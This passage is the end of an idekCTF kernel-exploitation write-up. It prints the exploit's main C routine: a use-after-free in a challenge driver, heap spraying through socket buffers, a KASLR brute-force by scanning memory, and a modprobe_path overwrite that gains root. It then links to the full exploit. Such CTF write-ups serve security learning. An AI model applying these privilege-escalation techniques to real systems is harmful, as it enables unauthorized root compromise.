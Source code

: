 Overall, the main code is as simple as
```c
int main(int argc, char *argv[])
{
        
        fd = open(DEVICE_FILE_NAME,0);
        if (fd < 0){
                puts("Device file not found.");
                exit(0);
        }  
        
        for (int i = 0; i < NUM_SOCKETS; i ++) {
                if(socketpair(AF_UNIX, SOCK_STREAM, 0, ss[i]) < 0) {
                    perror("socketpair");
                    exit(1);
                }
        }

        char buf[CHUNK_SIZE];
        uint64_t* fake_nft = calloc(8, 24);
        void* outbuf = calloc(1, 512);
        memset(buf, 0x41, CHUNK_SIZE);
        add_nft(buf);
        free_nft();

        read_nft(0, buf);
        uint64_t kbase;
        // KASLR only has 9 bits of entropy. Since copy_to_user is used to copy data from NFT to user(copy_to_user never crashes) we can just scan memory for kernel base.
        // Use socket buffer to fake an NFT pointer and then read nft idx 0 which is at fake pointer, and will attempt to copy text from fake pointer + 8.
        for(uint64_t i = 0; i < 512; i ++){
                fake_nft[0] = 0xffffffff80000000UL + (i << 21);
                printf("%p\n", fake_nft[0]);
                spray_skbuff(fake_nft, SKBUFF_SIZE);
                read_nft(1, buf);
                hexdump(buf, CHUNK_SIZE);
                free_skbuff(outbuf, SKBUFF_SIZE);
                // Actually read data
                if(buf[0] != 0x41){
                        kbase = fake_nft[0];
                        break;
                }
        }

        // Overwrite modprobe_path with /home/user/w and then do standard modprobe shenanigans
        uint64_t modprobe_path = kbase + 0x1851400;
        printf("Kernel base: %p\n", kbase);
        printf("Modprobe Path: %p\n", modprobe_path);

        fake_nft[0] = modprobe_path - 8;
        spray_skbuff(fake_nft, SKBUFF_SIZE);
        strcpy(buf, "/home/user/w");
        write_nft(1, buf);
        modprobe_hax();
}
```

[Full exploit file here](https://github.com/Day91/Writeups/blob/master/idekCTF/exploit.c)

## Conclusion

I had heard of memory scanning via usercopy primitives before but never got a chance to try it out in a kernel exploit until now, so it was definitely a nice challenge to do and I had fun!
